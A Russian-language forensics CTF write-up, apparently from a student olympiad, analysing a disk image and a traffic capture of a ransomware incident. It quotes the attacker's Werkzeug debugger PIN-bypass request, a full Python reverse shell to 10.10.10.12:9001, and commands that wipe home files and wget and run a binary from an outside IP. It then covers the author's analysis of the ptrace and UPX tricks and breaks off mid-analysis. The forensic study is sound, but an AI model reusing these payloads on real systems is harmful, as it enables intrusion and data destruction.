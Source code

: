 # Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged/`, `mnt/`, `proc/`, `sbin.usr-is-merged/`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло (остановил проверку хеша на 58.1% на вордсете `rockyou.txt` (в кали `/usr/share/wordset/rockyou.txt.gz` распаковал через `gunzip` в `/usr/share/wordset/rockyou.txt`))

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а также его айпи (`ip a`):
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```
Которая исходила от `172.18.0.3` к `10.10.10.12` (не `.3`), затем от `10.10.10.3` к `10.10.10.12` (на порт 9001)

Потом заметил команды, которые исходили от `10.10.0.12` (9001) к `10.10.10.3`, затем от `10.10.10.12` (не `.03`) к `172.18.0.3`

И понял, что надо просто просмотреть все пакеты и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`rm .*` удалил все файлы в домашней директории, а `wget` пожаловался на то, что директория `app` уже есть (в ней был тот самый докер сервис)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```

С помощью этих команд злоумышленник поднялся в `/home` и запустил шифровальщик

При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

Таким образом все оставшиеся файлы в домашней директории и сам `app` были зашифрованы

# Решение задач

Я просто начал выписывать соответствующие пакеты + их содержимое и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации

Я предположил, что `app` работает так же

## Задание 2-3

Я решил проверить, правда ли `app` работает схожим образом.

Я прогнал его через `strace` (`strace ./app > /home/qwerty/app.strace.log 2>$1`) и выяснил, что вывод содержит много примерно одинаковых строчек:

```
wait4(4824, [{WIFSTOPPED(s) && WSTOPSIG(s) == SIGTRAP}], 0, NULL) = 4824
ptrace(PTRACE_SYSCALL, 4824, NULL, 0)   = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_TRAPPED, si_pid=4824, si_uid=1001, si_status=SIGTRAP, si_utime=0, si_stime=0} ---
```

И несколько раз отвечает
```
ptrace(PTRACE_SYSCALL, 4824, NULL, 0ok
)   = 0
```

Это значит, что приложение использует `ptrace` так же, как и в приведенном аналоге (маскирует свои сисколлы через `ptrace` для подмены) для скрытности

## Задание 2-6

Как настало время решать 2-6 я скачал `app` себе на кали при помощи таковой функции в wireshark'е (файл -> экспортировать объекты -> HTTP -> text/plain app)

Когда я решил открыть его в `ghidra`, я увидел в конце текст, который потом еще раз увидел при помощи `strings ./app`:
```
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the t
Z executable packer http://upx.sf.net $
$Id: t
Z 4.24 Copyright (C) 1996-2024 the t
Z Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
PZS^
/proc/self/exe
...
```

Этот `upx` был скачан на кали, но когда я использовал `upx -d ./app` он мне сказал, что не в его кондициях распаковать этот файл (так же ответил и скачанный мной напрямую с гитхаба, более новой версии)

Тогда я решил поэкспериментировать с этим приложением и пошифровал несколько тестовых файлов, но, к сожалению, не в моих силах было разобрать алгоритм шифрования

Проконсультировавшись с `gemini-2.5-pro-exp-03-25`, мне было предложено использовать `hexdump`, и, хотя данные (след/отпечаток) не совпали с ни одним известным гемини методом шифрования, я увидел сигнатуру `beef dead bade c0fe`, которая присутствовала во всех зашифрованных файлах (пример с `Dockerfile.enc`):

`hexdump ./Dockerfile.enc`
```
0000000 beef dead bade c0fe 2ad6 50f9 b923 a3f6
0000010 8583 09fe 8c9f 3e36 73e0 e4cc 2159 a88f
0000020 eca6 af29 8993 638d b272 1cac 77fc 79a3
0000030 cfc2 674c 18d8 259c 705b 309b e774 711d
0000040 7f50 8519 9c6b a4e6 f8b4 82b3 4ba0 a875
0000050 7a7f 9f27 e4ca 8e9e b3cf d310 f56d 4fdf
0000060 895b f9fa 0165 e527 9d69 1eb1 5637 155a
0000070 45b0 d999 d4e0 571e 4154 6998 5e5d b671
0000080 3736 70cc b1e8 4307 9b63 377f b983 7e02
0000090 6ab2 3f23 c057 08ab 81c0 3986 5225 acea
00000a0 4fb8 420c 7fb1 b1f1 7e31 38aa 2753 56c6
00000b0 8655 2090 4c4d 362e b94a 13d5 248e 96f6
00000c0 414a 8e69 03db 82f6 4061 1a95 898a bda1
00000d0 b951 98ac cf49 041d e188 5c04 9f32 b3b9
00000e0 c4e8 cb05 fd77 211b fc10 fc47 b35c 87bb
00000f0 7f5e cd64 5aa3 2ded ea50 674e 49f7 69b5
0000100 ac54 4cc9 9cfb 4bcd 7d78 4e34 8a62 a862
0000110 dc5a ee26 b93e cade                    
0000118
```
